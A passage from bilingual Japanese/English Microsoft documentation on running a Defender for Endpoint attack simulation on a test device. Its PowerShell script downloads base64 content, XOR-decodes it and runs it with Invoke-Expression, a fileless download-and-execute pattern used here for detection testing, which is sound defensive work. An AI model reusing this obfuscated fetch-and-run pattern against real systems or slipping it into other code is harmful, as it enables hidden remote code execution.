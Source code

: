   1. <span data-ttu-id="ee2e4-146">テスト デバイスが Microsoft Defender for Endpoint にオンボードされている[のを確認します。](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="ee2e4-146">Verify that the test device is [onboarded to Microsoft Defender for Endpoint)](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="ee2e4-147">既存のテナントを使用してデバイス グループを実装する場合は、テスト デバイス用の専用デバイス グループを作成し、構成 UX で上位レベルにプッシュします。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-147">If you use an existing tenant and implement device groups, create a dedicated device group for the test device and push it to top level in configuration UX.</span></span>

## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="ee2e4-148">攻撃シナリオのシミュレーションを実行する</span><span class="sxs-lookup"><span data-stu-id="ee2e4-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="ee2e4-149">攻撃シナリオのシミュレーションを実行するには、次のコマンドを実行します。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="ee2e4-150">テスト ユーザー アカウントを使用してテスト デバイスにログインします。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="ee2e4-151">テスト デバイスWindows PowerShellウィンドウを開きます。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="ee2e4-152">次のシミュレーション スクリプトをコピーします。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="ee2e4-153">Web ブラウザーでこのドキュメントを開いた場合、特定の文字を失わずにフル テキストをコピーしたり、改行を追加したりせずに問題が発生する可能性があります。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="ee2e4-154">このドキュメントをダウンロードし、Adobe Reader で開きます。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="ee2e4-155">プロンプトで、コピーしたスクリプトを貼り付け、実行します。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="ee2e4-156">リモート デスクトップ プロトコル (RDP) を使用して PowerShell を実行している場合は **、CTRL-V** ホットキーまたは右クリック貼り付けメソッドが機能しないので、RDP クライアントで [クリップボード テキストの種類] コマンドを使用します。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="ee2e4-157">PowerShell の最近のバージョンでは、そのメソッドを受け入れれなく場合があります。最初にメモリ内のメモ帳にコピーし、仮想マシンにコピーしてから PowerShell に貼り付ける必要があります。</span><span class="sxs-lookup"><span data-stu-id="ee2e4-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>
